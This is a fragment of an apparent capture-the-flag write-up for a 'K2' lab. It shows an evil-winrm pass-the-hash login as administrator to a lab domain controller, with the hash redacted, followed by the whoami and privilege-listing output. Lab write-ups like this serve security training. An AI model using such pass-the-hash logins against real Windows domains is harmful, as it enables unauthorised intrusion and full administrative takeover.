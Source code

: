 ```bash
...
[*] Cleaning up... 
```

<h1 align="center">Shell as <strong>Administrator</strong></h1>

```bash
:~/K2# evil-winrm -i K2RootDC.k2.thm -u 'administrator' -H '⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
k2\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
```